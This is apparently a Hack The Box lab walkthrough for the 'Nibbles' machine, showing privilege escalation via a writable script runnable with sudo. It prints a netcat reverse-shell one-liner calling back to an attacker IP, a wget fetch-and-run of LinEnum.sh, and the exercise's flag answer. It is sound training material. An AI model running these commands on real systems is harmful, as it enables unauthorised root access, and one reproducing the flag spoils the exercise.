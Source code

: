 - Now that we have a reverse shell connection, it is time to escalate privileges. We can unzip the `personal.zip` file and see a file called `monitor.sh`.
```shell-session
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```
- The shell script `monitor.sh` is a monitoring script, and it is owned by our `nibbler` user and writeable.
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>
```
- Let us put this aside for now and pull in [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks. 
- First, download the script to your local attack VM or the Pwnbox and then start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.
```shell-session
secmancer@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
```
- Back on the target type `wget http://<your ip>:8080/LinEnum.sh` to download the script. If successful, we will see a 200 success response on our Python HTTP server. 
- Once the script is pulled over, type `chmod +x LinEnum.sh` to make the script executable and then type `./LinEnum.sh` to run it. 
- We see a ton of interesting output but what immediately catches the eye are `sudo` privileges.
```shell-session
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
- The `nibbler` user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges. 
- Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. 
- Let us edit the `monitor.sh` file to append a reverse shell one-liner.
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```
- Finally, catch the root shell on our waiting `nc` listener.
```shell-session
secmancer@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
```
- From here, we can grab the `root.txt` flag. Finally, we have now solved our first box on HTB. 
- Try to replicate all of the steps on your own. Try various tools to achieve the same effect. 
- We can use many different tools for the various steps required to solve this box. This walkthrough shows one possible method. Make sure to take detailed notes to practice that vital skillset.


### Questions
- Escalate privileges and submit the root.txt flag.
	- de5e5d6619862a8aa5b9b212314e0cdd